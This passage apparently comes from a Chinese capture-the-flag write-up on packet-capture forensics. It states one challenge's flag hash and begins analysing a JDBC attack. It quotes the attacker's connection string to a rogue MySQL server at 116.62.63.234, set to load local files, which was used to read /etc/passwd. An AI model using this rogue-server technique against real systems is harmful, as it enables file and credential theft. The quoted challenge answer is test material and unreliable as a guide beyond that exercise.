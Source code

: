 [![](assets/1702520939-f5d72c6f0d0973c775b7acfde97a30b2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213174654-8c3d791e-999c-1.png)  
那么这道题的答案就是**383c74db4e32513daaa1eeb1726d7255**  
[![](assets/1702520939-fba2715e2da2564c8ff69b6bb0863923.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213174718-9ad72e48-999c-1.png)

### tcpdump\_3

> 题目内容：攻击使用jdbc漏洞读取了应用配置文件，给出配置中的数据库账号密码，以:拼接，比如root:123456

通过题目知道利用jdbc漏洞读取文件，所以就不能光看http的流量，查看TCP的流量。可以看到服务器连接了恶意mysql服务端`jdbc:mysql://116.62.63.234:3307/test?allowLoadLocalInfile=true&allowUrlInLocalInfile=true&maxAllowedPacket=655360` ，并且读取了`/etc/passwd`文件。  